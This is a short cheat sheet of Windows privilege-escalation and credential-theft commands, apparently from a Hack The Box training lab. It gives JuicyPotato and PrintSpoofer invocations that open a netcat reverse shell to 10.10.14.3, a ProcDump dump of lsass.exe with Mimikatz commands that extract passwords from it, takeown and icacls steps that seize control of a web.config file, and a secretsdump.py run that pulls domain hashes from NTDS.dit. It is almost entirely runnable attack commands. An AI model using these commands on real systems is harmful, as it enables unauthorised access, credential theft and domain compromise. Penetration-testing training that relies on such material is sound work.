 #### Escalate privileges with JuicyPotato
```cmd
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *
```
- Uses `JuicyPotato` for privilege escalation by abusing token impersonation.

#### Escalating privileges with PrintSpoofer
```cmd
c:\tools\PrintSpoofer.exe

 -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
- Leverages `PrintSpoofer` to escalate privileges by exploiting the Print Spooler service.

#### Take memory dump with ProcDump
```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
- Creates a memory dump of the `lsass.exe` process, potentially containing credentials.

#### Use MimiKatz to extract credentials from LSASS memory dump
```cmd
sekurlsa::minidump lsass.dmp and sekurlsa::logonpasswords
```
- Processes an `lsass.exe` memory dump with `Mimikatz` to extract plaintext passwords and hashes.

#### Checking ownership of a file
```cmd
dir /q C:\backups\wwwroot\web.config
```
- Displays the owner of the specified file.

#### Taking ownership of a file
```cmd
takeown /f C:\backups\wwwroot\web.config
```
- Takes ownership of the specified file, allowing for further actions like editing or deletion.

#### Confirming changed ownership of a file
```powershell
Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ | select name,directory, @{Name=“Owner”;Expression={(Get-ACL $_.Fullname).Owner}}
```
- Confirms the owner of the file has been changed, using PowerShell for detailed output.

#### Modifying a file ACL
```cmd
icacls “C:\backups\wwwroot\web.config” /grant htb-student:F
```
- Grants full control permissions to the specified user on the file.

#### Extract hashes with secretsdump.py
```cmd
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
- Dumps the NTDS.dit file hashes using the SYSTEM registry hive for decryption.
